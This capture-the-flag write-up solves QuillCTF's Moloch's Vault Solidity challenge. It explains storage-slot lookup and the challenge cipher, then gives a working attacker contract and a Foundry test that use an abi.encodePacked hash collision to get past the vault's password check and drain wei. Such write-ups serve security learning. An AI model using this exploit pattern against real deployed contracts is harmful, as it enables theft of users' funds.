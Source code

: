 # Proof of Concept for Moloch's Vault CTF Challenge

https://quillctf.super.site/challenges/quillctf-challenges/molochs-vault

## Objective

This document presents a proof of concept for the Moloch's Vault CTF Challenge. The objective of the challenge is to steal at least 1 WEI from the MolochVault contract.

## Contract Details

- Contract Address (Görli Testnet): 0xafb9ed5cd677a1bd5725ca5fcb9a3a0572d94f6f
- Contract Source: [Etherscan](https://goerli.etherscan.io/address/0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f#code)

## Questions

### Detailed formula for finding the slot of the dynamic struct

Source: <https://docs.soliditylang.org/en/v0.8.19/internals/layout_in_storage.html?highlight=dynamic%20struct#mappings-and-dynamic-arrays>

Due to their unpredictable size, mappings and dynamically-sized array types cannot be stored “in between” the state variables preceding and following them. Instead, they are considered to occupy only 32 bytes with regards to the rules above and the elements they contain are stored starting at a different storage slot that is computed using a Keccak-256 hash.

If the mapping value is a non-value type, the computed slot marks the start of the data. If the value is of struct type, for example, you have to add an offset corresponding to the struct member to reach the member.

In the challenge we have the following declaration:

```solidity
struct Cabal {
        address payable identity;
        string password;
    }
    Cabal[] private cabals;
```

The formula for finding the slot of the identity and password fields of the n element of the cabals array, where p is the storage slot of cabals, is:

```solidity
identity_slot = keccak256(keccak256(p) + n);
password_slot = keccak256(keccak256(p) + n) + 1;
```

### Details of decrypting Moloch-algorithm

The Moloch algorithm is a simple caesar cipher that used a different key for vowels and consonants. The key for vowels is 24 and the key for consonants is 2.

### Explain bypass for keccak256(abi.encodePacked())

Source: <https://docs.soliditylang.org/en/v0.8.19/abi-spec.html#non-standard-packed-modes>

If you use `keccak256(abi.encodePacked(a, b))` and both a and b are dynamic types, it is easy to craft collisions in the hash value by moving parts of a into b and vice-versa. More specifically, `abi.encodePacked("a", "bc") == abi.encodePacked("ab", "c")`. If you use abi.encodePacked for signatures, authentication or data integrity, make sure to always use the same types and check that at most one of them is dynamic. Unless there is a compelling reason, abi.encode should be preferred.

## Proof of Concept

### MolochCaller.sol

```solidity
pragma solidity ^0.8.16;

import "./MOLOCH_VAULT.sol";

contract MolochCaller {
    MOLOCH_VAULT molochVault;

    constructor(address payable _molochVaultAddress) {
        molochVault = MOLOCH_VAULT(_molochVaultAddress);
    }

    function callUhER778(string[3] memory _openSecrete) public payable {
        // Make sure the MolochCaller has at least 2 wei balance to forward to MOLOCH_VAULT
        require(
            address(this).balance >= 2 wei,
            "MolochCaller balance must be at least 2 wei"
        );

        // Call the uhER778 function in the MOLOCH_VAULT contract
        (bool success, ) = address(molochVault).call{value: 2 wei}(
            abi.encodeWithSignature("uhER778(string[3])", _openSecrete)
        );

        // Check if the call was successful
        require(success, "uhER778 call failed");
    }

    function callSendGrant(address _guarantee) public payable {
        molochVault.sendGrant(payable(_guarantee));
    }

    // Function to deposit Ether into the MolochCaller
    function deposit() public payable {
        require(msg.value > 0, "Must deposit a positive amount of Ether");
    }

    // Fallback function to receive Ether
    fallback() external payable {
        // Forward the received 1 wei back to the MOLOCH_VAULT contract
        (bool sent, ) = address(molochVault).call{value: 2 wei}("");
        require(sent, "Failed to send 1 wei back to MOLOCH_VAULT");
    }
}
```

### MOLOCH_VAULT.t.sol

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.16;

import "forge-std/Test.sol";
import "../src/MOLOCH_VAULT.sol";
import "../src/MolochCaller.sol";

contract MolochVaultTest is Test {
    MOLOCH_VAULT molochVault;
    address payable vaultAddress =
        payable(0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f);

    // re-entrant exploiter caller
    MolochCaller molochCaller;

    // OSINT Information
    // Source: https://goerli.etherscan.io/address/0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f#code

    // Constructor Arguments:
    // molochPass: The Moloch password
    string molochPass = "BLOODY PHARMACIST";

    // question: The two parts of the question
    string[2] question = ["WHO DO YOU", "SERVE?"];

    // initialCabalsAddresses: The initial addresses for the Cabals
    address payable[3] initialCabalsAddresses = [
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4),
        payable(0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2),
        payable(0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db)
    ];

    // initialCabalsPasswords: The initial passwords for the Cabals
    string[3] initialCabalsPasswords = [
        "KCLEQ",
        "BGTGJQNGP",
        "ZJQQBW*NFCPKCAKQR"
    ];

    // Deployment Transaction:
    // https://goerli.etherscan.io/tx/0x72049d23504379883f2dbd9265bb80ef0031beb2f3d12e18865ca4a2c7a63390

    // Vault Deployer Address
    address deployer = 0x6c3b4b9f3B27fA64dEB63962e49Fc582f5187E05;

    // Moloch Hash
    bytes32 Moloch;

    // hsah Hash
    bytes32 hsah;

    // hy7UIH Hash
    bytes32 hy7UIH;

    function setUp() public {
        vm.deal(msg.sender, 1 ether);
        molochVault = MOLOCH_VAULT(vaultAddress);
        // calculating constructor immutable variables
        Moloch = calculateMolochHash(address(deployer));
        hsah = keccak256(abi.encodePacked(molochPass));
        hy7UIH = keccak256(abi.encodePacked(question[0], question[1]));
        molochCaller = new MolochCaller(payable(address(molochVault)));
        molochCaller.deposit{value: 3 wei}();
    }

    function testHack() public {
        string[2] memory differentQuestion = ["WHO DO ", "YOUSERVE?"];
        string[3] memory _openSecrete = [
            molochPass,
            differentQuestion[0],
            differentQuestion[1]
        ];
        molochCaller.callUhER778(_openSecrete);
        molochCaller.callSendGrant(msg.sender);
    }

    function calculateMolochHash(address addr) public pure returns (bytes32) {
        return keccak256(abi.encodePacked(addr));
    }
}
```
